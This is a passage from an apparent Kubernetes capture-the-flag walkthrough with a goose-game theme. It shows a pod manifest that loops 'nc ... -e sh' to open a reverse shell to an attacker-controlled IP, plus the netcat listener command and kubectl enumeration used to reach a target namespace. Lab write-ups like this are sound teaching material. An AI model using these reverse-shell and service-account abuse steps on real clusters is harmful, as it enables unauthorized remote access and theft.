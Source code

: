 You cannot impersonate twice, so at this point it's time for everyone's favorite
...a remote shell!

Example remote shell pod using netcat.
```
apiVersion: v1
kind: Pod
metadata:
  name: goose-burly-man
  namespace: pub
spec:
  serviceAccountName: burly-man
  containers:
  - image: alpine:latest
    name: goose-burly-man
    command:
      - sh
      - -c
      - while true; do nc 192.168.1.10 5555 -e sh; done
```

On your local system you would run an instance like this:
```
nc –lvp 5555
```
For more information on remote shell techniques, check this handy [how-to].


If you iterate through trying the various service accounts, grabbing kubectl
and testing if they have access, 2 of the 5 named service accounts do: [barkeep]
and [burly-man]. However, only burly-man has access to the [model-village][ns]
namespace.

```
kubectl get po -n model-village --show-labels
No resources found in model-village namespace.
```


---

## Todo-4 - Steal the beautiful miniature golden bell

Using the shell in the burly-man pod. It's time to take a look at the model
village.

```
$ kubectl get all -n model-village
No resources found in model-village namespace.
```

Not all resources appear when using the _all_ keyword.

```
$ kubectl get cm -n model-village
NAME   DATA   AGE
bell   1      24h
```


[kind]: https://kind.sigs.k8s.io
[ns]: manifests/02/00-namespaces.yaml
[goose]: manifests/02/03-goose.yaml
[groundskeeper]: manifests/02/04-groundskeeper.yaml
[bell]: manifests/02/10-bell.yaml
[oldman]: manifests/02/08-old-man.yaml
[barkeep]: manifests/02/05-barkeep.yaml
[burly-man]: manifests/02/06-burly-man.yaml
[impersonate]: https://kubernetes.io/docs/reference/access-authn-authz/authorization/#checking-api-access
[psp]: https://kubernetes.io/docs/concepts/policy/pod-security-policy/
[how-to]: https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/